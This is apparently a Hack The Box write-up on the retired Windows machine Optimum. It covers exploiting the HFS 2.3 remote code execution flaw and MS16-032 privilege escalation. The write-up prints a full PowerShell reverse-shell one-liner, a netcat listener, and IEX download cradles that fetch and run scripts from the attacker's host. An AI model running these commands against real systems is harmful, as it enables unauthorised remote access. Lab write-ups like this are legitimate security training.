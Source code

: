 ![logo](/logo.png)

# [Optimum- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 18 Mar 2017 as the sixth machine on HTB,Optimum created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *HFS
  *HttpFileserver
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](Windows/Windows-Easy/Optimum/Screenshots/nmap.png)
```sh
nmap -sV -sC -oA nmap/optimum 10.10.10.8                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 14:58 EAT
Nmap scan report for 10.10.10.8
Host is up (0.31s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
```

looking at the results  we find out that there is 1 ports open and its a `HttpFileServer `and its running an `Apache server`. 

port[80]-  httpd 2.3

so looking at the page [http//:10.10.10.8](http://10.10.10.8) we find there is a login page 

![](/Windows/Windows-Easy/Optimum/Screenshots/landingpage.png)

when I try to login with default credential i find out that it fails but when i click at the HttpFileserver 2.3 it redirects to a [rejetto](http://www.rejetto.com/hfs/)

![](Windows/Windows-Easy/Optimum/Screenshots/rejetto.png)

so we decide to search for the exploit 

# Exploitation

```sh
searchsploit HttpFileServer 2.3
```

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit.png)

as we can see their is an RCE exploit a python script so we examine the file

![](/Windows/Windows-Easy/Optimum/Screenshots/exploit.png)

we can see that it exploits with the `%00`  null bytes but this scripts generates for us a url to execute a reverse shell on the machine.

```sh
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/optimumpowershell.ps1')"
```

so we create a powershell reverse shell so that we can be able to execute and get a shell. You can get search shell from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) for multiline and one line from [nishang](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1&ved=2ahUKEwidwsWIy-qHAxV4R_EDHS6ZD-kQjBB6BAguEAE&usg=AOvVaw1G_nxxPwS6B_yCRUM4Sd3U)

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

now we set a listener so as to get the revershell.

```sh
nc -nvlp 1337
```

then we get the  revershell 

![](/Windows/Windows-Easy/Optimum/Screenshots/reverse.png)

and we navigate with the python script generated above to the browser to get the shell.

![](/Windows/Windows-Easy/Optimum/Screenshots/browser.png)

we can then get the user flag from the user `kostas`

![](/Windows/Windows-Easy/Optimum/Screenshots/userflag.png)

now that we get to find the user flag we can now do a privillage escalation to find the root flag 

# Privillage Escalation

Just by looking at the `systeminfo` we get that their are hot fixes that where done to the machine

![](/Windows/Windows-Easy/Optimum/Screenshots/hotfix.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execte if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Easy/Optimum/Screenshots/sherlork.png)

and it appears that `ms16-032 and some other 2` are vulnerable

![](/Windows/Windows-Easy/Optimum/Screenshots/ms16.png)

so we search for an exploit using searchsploit and we get its vulnerabilty canbe done using different ways 

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit2.png)

after examining the code we find that it execute from cmd.exe now we find another exploit from [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) which has modification to execte from power shell. We just add the revershell at the end so that we can Invoke from the session again.

![](/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs016.png)
Now after that we set a new listner and we go and execute the from the session with this to get a shell of the `Nt Authority`

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/InvokeMs.ps1')
```

![](Windows/Windows-Easy/Optimum/Screenshots/InvokeMs.png)

now after executing that a setting a listner we get root

![](/Windows/Windows-Easy/Optimum/Screenshots/root.png)
now we get the root flag 

![](/Windows/Windows-Easy/Optimum/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------